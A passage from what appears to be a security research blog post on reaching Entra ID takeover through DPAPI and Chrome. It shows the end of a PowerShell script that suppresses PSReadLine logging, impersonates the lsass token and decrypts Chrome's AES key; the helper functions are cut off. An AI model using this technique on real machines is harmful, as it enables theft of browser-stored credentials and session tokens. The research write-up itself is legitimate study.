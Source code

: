 ```powershell
    }
}

# Main execution
Write-Host "`n=================================================="
Write-Host "CHROME AES KEY DECRYPTION VIA CNG WITH XOR"
Write-Host "==================================================`n"

Write-Host "[*] Remove-Module: Removing PSReadLine"
Remove-Module PSReadLine -Force -ErrorAction SilentlyContinue
Write-Host "[+] Remove-Module: PSReadLine removed"

Write-Host "[*] ImpersonateProcessToken: Impersonating lsass process token"
if (-not [SecurityInterop]::ImpersonateProcessToken("lsass")) {
    Write-Host "[-] ImpersonateProcessToken: Impersonation failed"
    exit 1
}
Write-Host "[+] ImpersonateProcessToken: Process token impersonation successful"
Write-Host "[*] Current security context: $([Security.Principal.WindowsIdentity]::GetCurrent().Name)"

Write-Host "[*] Starting AES key decryption process"
try {
    if ($args.Count -gt 0) {
        $finalKey = Get-DecryptedAesKey -EncryptedKeyHex $args[0]
    } else {
        $finalKey = Get-DecryptedAesKey
    }
    Write-Host "[+] AES key decryption completed successfully`n"
}
catch {
    Write-Host "[-] Error: $($_.Exception.Message)`n" -ForegroundColor Red
}
```

![image-20250930160009083](/assets/posts/2025-09-30-from-dpapi-to-chrome-a-journey-to-entra-id-takeover/image-20250930160009083.png)
